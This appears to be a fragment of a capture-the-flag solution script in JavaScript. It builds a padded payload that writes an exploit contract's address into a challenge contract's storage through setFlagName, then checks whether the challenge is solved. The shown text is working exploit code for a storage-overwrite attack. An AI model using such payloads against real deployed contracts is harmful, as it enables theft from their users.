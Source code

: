 ```js
  const slot = "\x00".repeat(32);
  const payload = slot.repeat(141) + Buffer.from(web3.eth.abi.encodeParameter("uint256", exploitAddress).slice(2), "hex").toString();
  await sendMethod(flags, flags.methods.setFlagName(FLAG_ID, payload));
  console.log("set flag name");

  console.log(await setup.methods.isSolved().call());
})();
```
